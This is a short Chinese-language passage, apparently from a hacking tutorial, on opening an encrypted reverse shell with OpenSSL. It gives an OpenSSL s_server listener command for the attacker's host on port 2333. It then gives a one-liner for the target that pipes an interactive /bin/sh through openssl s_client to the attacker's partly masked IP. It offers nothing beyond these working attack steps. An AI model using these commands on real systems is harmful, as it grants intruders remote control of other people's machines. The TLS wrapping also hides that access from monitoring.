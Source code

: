 攻击机：

- 系统：Linux
- IP：47.xxx.xxx.72

假设我们从目标机反弹 shell 到攻击机 。首先需要利用上一步生成的自签名证书，在攻击机上使用 OpenSSL 监听一个端口，在这里使用 2333 端口：

openssl s_server -quiet -key key.pem -cert cert.pem -port 2333  
 

此时 OpenSSL 便在攻击机的 2333 端口上启动了一个 SSL/TLS server。

这时在目标机进行反弹 shell 操作，命令为：

mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 47.xxx.xxx.72:2333 > /tmp/s; rm /tmp/s  
 

这样攻击者便使用 OpenSSL 反弹了目标机一个加密的 shell。